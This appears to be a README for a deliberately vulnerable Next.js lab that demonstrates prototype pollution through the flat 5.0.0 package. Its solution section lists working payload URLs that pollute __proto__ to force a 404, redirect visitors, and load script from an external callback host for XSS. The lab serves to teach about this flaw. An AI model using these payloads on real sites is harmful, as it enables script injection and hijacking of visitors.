 # Next.js-Flat-Prototype-Pollution

A prototype pollution scenario in [Next.js](https://github.com/vercel/next.js/) when [flat:5.0.0](https://www.npmjs.com/package/flat) is used.

> Video goes here

## Setup Instructions

Install dependencies and start production server.

```sh
npm install
npm run build
npm start
```

## Solution

<details><summary>Test - 404 page</summary><br/>

```url
/vulnerable?__proto__.notFound=1
```

</details>

<details><summary>Test - redirect to google</summary><br/>

```url
/vulnerable?__proto__.redirect.destination=https://google.com
```

</details>

<details><summary>XSS</summary><br/>
    
```url
/vulnerable?amp=1&__proto__.amp=hybrid&__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/
```

</details>
